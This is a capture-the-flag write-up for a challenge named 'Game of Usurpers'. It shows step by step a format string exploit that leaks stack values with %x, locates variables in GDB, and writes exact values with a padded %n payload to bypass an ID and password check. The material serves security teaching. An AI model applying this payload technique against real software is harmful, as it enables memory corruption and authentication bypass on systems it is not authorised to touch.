 # Game of Usurpers

## Challenge 
> You said that you're our Emperor, but you just lost your crown while you were hunting. As a matter of fact, every nobles have their own ID and password. You have to tell us your ID and Password to prove your claim. 

>[Source.](game_of_usurpers.c)

## Hint
> What happens if you say something OTHER than yes or no?

## Solution

References

- https://github.com/zst-ctf/picoctf-2018-writeups/blob/master/Solved/authenticate/
- https://axcheron.github.io/exploit-101-format-strings/

### Format string attack

If we don't input either yes or no, it will print our input value


	$ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    %1$x
    What are you mumbling about:

    804a1e7
    Sorry, you are not our Emperor! Go and never return, you liar!

Since we want to modify `id` and `passwd`, let's first find their address through GDB

	gdb-peda$ p &id
    $1 = (<data variable, no debug info> *) 0x804c04c <id>
    gdb-peda$ p &passwd
    $2 = (<data variable, no debug info> *) 0x804c050 <passwd>


For format string, we need to first find out what buffer area we can control to select the address of the `id` and `passwd` variables

	$ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    %x %x %x %x %x %x %x %x %x %x %x %x
    What are you mumbling about:

    804a1e7 f7ede580 80493d1 0 0 f7f27000 ffeab934 0 534 3e8 25207825 78252078
    Sorry, you are not our Emperor! Go and never return, you liar!

So we can control offset 11 and upwards. All we need to do is put  `0x804c04c` (the address of `id`) and `0x804c050` (the address of `passwd`) in the offsets so that we can use `%n` to write to them.

	\x4c\xc0\x04\x08\x50\xc0\x04\x08%11$n%12$n

The result is like so

    $ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    \x4c\xc0\x04\x08\x50\xc0\x04\x08%11$n%12$n
    What are you mumbling about:

    LP�
    Sorry, you are not our Emperor! Go and never return, you liar!

As you can see, we haven't succeeded in capturing the flag because the `id` has to be exactly `1234` and the `passwd` has to be exactly `5678`. We can ensure that those exact values are written to the addresses of those variables by padding the input with the correct size. Since the input already contains 8 bytes from the address, we need to pad it using `%1226x` so that the program will write 1226 + 8 = 1234 bytes to `id`. Then, we need to pad it again using `%4444x` so that the program will write 1234 + 4444 = 5678 bytes to `passwd`. The resulting attack string is as follows

    \x4c\xc0\x04\x08\x50\xc0\x04\x08%1226x%11$n%4444x%12$n

## Flag

	
	$ while read -r line; do echo -e $line; done | ./game_of_usurpers
    You said that you're our Emperor, but you just lost your crown while you were hunting
    As a matter of fact, every nobles have their own ID and password
    And, you have to tell us your ID and Password to prove your claim. Would you? (yes/no)
    \x4c\xc0\x04\x08\x50\xc0\x04\x08%1226x%11$n%4444x%12$n
    What are you mumbling about:

    LP






                                                                                                                   804a1e7



























                                                                                                                                      f7ecf580
    This way, Your Highness.
    CSCE604258{ha_ha_ha_ha}